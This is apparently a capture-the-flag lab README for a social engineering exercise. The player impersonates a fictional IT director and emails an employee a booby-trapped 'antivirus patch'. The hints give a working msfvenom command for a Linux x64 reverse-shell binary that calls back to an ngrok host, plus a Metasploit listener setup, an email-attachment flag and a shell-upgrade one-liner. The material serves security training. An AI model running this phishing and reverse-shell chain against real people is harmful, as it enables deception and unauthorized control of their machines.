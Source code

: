# Social Engineering Challenge 3

----------------------

For this one, we're going to target Kylo Solo's trust in his boss, IT Director Scotty LaForge.

Your goal is to send an email TO Kylo Solo, FROM his boss Scotty, with an evil attachment. You should say the attachment is a patch Kylo needs to run to update his antivirus, or some such thing. 

Your attachment should be booby-trapped; it should grant you access to his machine using a reverse shell, or some such thing.
- Frank Johnson (Chief Security Officer, Veritas Inc.)

NOTE - Kylo is super eager to please his boss. He will immediately open and run all attachments you send him. In this case, he doesn't have java/flash/a pdf reader installed, so you should probably send him a binary. Note that he's running a linux x64 machine.

----------------------

Stuck? 
----------------------
<details> 
  <summary>Click for hint 1</summary>
  
  msfvenom (which is installed on Kali linux) is an app that lets you craft a binary for any target OS/architecture. For Kylo, be sure to target x64 architecture and the linux platform. 
  
  msfvenom --platform linux -p linux/x64/shell/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=19358 -b "\x00" -f elf > ~/Desktop/runme

</details>

<details> 
  <summary>Click for hint 2</summary>
  If you use a shell/reverse_tcp exploit, you will need a publicly visible LHOST and LPORT (ngrok is great for that) when crafting the binary with msfvenom. Use something like `./ngrok tcp 443` to get your publicly available LHOST and LPORT.
  
  Then when using msfconsole to listen for the exploit's response, your LHOST and LPORT values there will be your localhost ones that ngrok points to - so LHOST for msfconsole should be 127.0.0.1 and LPORT 443. To get started in msfconsole, run `use exploit/multi/handler` and set your payload to the same one you ran in msfvenom - that should set it up to listen properly.
</details>

<details> 
  <summary>Click for hint 3</summary>
  To add an attachment in sendEmail, all you have to do is this: `-a "/root/Desktop/runme"` where runme is the executable file you want attached.
</details>

<details> 
  <summary>Click for hint 4</summary>
  If you obtained a shell to the remote server by using a reverse/tcp payload, it's not very pretty - make it more functional and pretty by running this in it:
  
  ```
  python -c "import pty; pty.spawn('/bin/bash');"
  ```
</details>



